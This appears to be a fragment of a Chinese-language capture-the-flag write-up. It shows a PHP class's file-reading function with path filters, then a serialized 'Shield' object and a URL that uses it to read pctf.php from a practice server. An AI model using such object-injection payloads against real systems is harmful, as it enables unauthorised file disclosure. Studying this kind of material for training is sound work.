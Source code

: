 ```
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>

```
得到：
`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
构造：
`http://web.jarvisoj.com:32768/index.php?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
